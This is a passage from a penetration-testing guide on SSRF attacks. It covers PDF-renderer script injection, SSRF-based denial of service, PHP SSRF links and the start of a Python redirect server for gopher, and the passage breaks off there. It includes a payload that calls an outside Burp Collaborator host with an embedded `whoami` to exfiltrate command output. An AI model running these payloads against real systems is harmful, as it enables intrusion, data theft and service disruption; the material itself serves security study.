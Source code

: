 It might be worth trying a payload like: `` url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami` ``

## PDFs Rendering

If the web page is automatically creating a PDF with some information you have provided, you can **insert some JS that will be executed by the PDF creator** itself (the server) while creating the PDF and you will be able to abuse a SSRF. [**Find more information here**](../xss-cross-site-scripting/server-side-xss-dynamic-pdf.md)**.**

## From SSRF to DoS

Create several sessions and try to download heavy files exploiting the SSRF from the sessions.

## SSRF PHP Functions

{% content-ref url="../../network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.md" %}
[php-ssrf.md](../../network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.md)
{% endcontent-ref %}

## SSRF Redirect to Gopher

For some exploitations you might need to **send a redirect response** (potentially to use a different protocol like gopher). Here you have different python codes to respond with a redirect:

```python
# First run: openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

class MainHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        print("GET")
        self.send_response(301)
```